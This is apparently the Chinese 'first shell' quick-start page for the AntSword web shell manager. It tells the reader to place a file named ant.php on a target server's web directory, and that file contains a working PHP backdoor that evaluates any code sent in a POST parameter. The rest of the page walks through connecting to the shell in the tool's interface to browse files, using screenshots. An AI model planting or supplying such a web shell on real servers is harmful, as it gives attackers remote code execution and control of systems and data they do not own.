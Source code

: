 第一个Shell
---

> 本小节会教你快速添加一个Shell

下面是添加的步骤：

> 以 PHP 为例

##### 1.在目标服务器的Web目录下新建一个Shell

文件名为: `ant.php`

其内容为：

```
<?php eval($_POST['ant']); ?>
```

![][img_first_shell_1]

##### 2.打开AntSword，在空白位置单击「鼠标右键」，弹出菜单，选择 「`添加数据`」

![][img_first_shell_2]

##### 3.在添加数据界面中，如下图，填必要的信息

![][img_first_shell_3]

然后点击 「`添加`」按钮，即可在数据管理中看到刚才添加的 Shell

![][img_first_shell_4]

##### 4.双击刚才添加的 Shell,即可看到文件管理界面

![][img_first_shell_5]

> 一切就是如此简单：）

[img_first_shell_1]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_1.jpg
[img_first_shell_2]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_2.jpg
[img_first_shell_3]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_3.jpg
[img_first_shell_4]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_4.jpg
[img_first_shell_5]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_5.jpg
